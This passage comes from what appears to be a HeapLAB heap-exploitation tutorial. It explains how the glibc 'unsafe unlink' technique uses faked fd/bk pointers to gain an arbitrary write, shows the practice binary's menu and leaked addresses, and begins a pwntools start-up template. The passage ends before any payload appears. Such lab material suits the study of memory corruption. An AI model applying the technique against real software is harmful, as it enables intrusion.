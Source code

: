 Then the `fd` and `bk` pointers point at the start of the chunk - prev_size. So when overwriting the `fd` pointer here:

```c
FD->bk = BK        (0x56555780 + 0xc = 0x10000000)
```

FD points to 0x56555780, and then 0xc gets added on for `bk`, making the write actually occur at 0x5655578c, which is what we wanted. That is why we fake `fd` and `bk` values lower than the actual intended write location.

In 64-bit, all the chunk data takes up 0x8 bytes each, so the offsets for `fd` and `bk` will be 0x10 and 0x18 respectively.

The slight issue with the unlink exploit is not only does `fd` get written to where you want, `bk` gets written as well - and if the location you are writing either of these to is protected memory, the binary will crash.


Now, let's get back to our target binary: `unsafe_unlink`.

When we run the binary, we are presented with the following menu:


```bash
./unsafe_unlink 

===============
|   HeapLAB   |  Unsafe Unlink
===============

puts() @ 0x738c414675a0
heap @ 0x5b6e25b9a000

1) malloc 0/2
2) edit
3) free
4) quit
> 

```

From this menu, we can see that the program allows a maximum of 2 allocations. Each allocation must satisfy the size constraint **120 < bytes ≤ 1000**, which means we cannot allocate chunks that fall into the fastbins.

I have used the following **pwntools** template for automation and exploitation -


```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'unsafe_unlink')
libc = ELF(exe.libc.path, checksec=False)



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())
```